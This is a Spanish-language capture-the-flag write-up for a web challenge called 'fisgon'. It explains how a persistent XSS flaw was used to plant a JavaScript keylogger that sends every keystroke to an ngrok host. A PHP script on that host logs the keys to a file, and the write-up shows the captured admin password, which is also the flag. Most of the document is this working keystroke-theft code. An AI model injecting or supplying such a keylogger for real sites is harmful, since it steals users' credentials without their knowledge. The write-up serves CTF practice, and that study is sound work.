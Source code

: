 # Web 200 fisgon

Necesitamos robar la contraseña del administrador de este sitio, sabemos que constantemente se loggea al sitio, aproximadamente cada 10 minutos, puedes espiarlo y recuperar dicha informacion?

El sitio era vulnerable a XSS persistente, por lo que se incorporó un archivo js para que funcionará como keylogger, siendo el código de js el siguiente

```js
var l = "|";
document.onkeypress = function (e) {
     l += e.key + "|";

     var req = new XMLHttpRequest();
     req.open("GET","https://8fcad6259181.ngrok.io/XSS/saveit.php?letra="+l, true); 			
     req.send(null);
}
```
Y el código de saveit.php sería:

```php
$keylogger = $_GET['letra'];
$fp = fopen('keylogger.txt', 'a+');
fwrite($fp, '' .$keylogger."\r\n");
fclose($fp);
```

De esta manera se capturaron las credenciales del admin, siendo las siguientes:
* admin
* st0r3d?xss?c4n?b3?d4n93r0u$?t0o!

## FLAG
st0r3d?xss?c4n?b3?d4n93r0u$?t0o!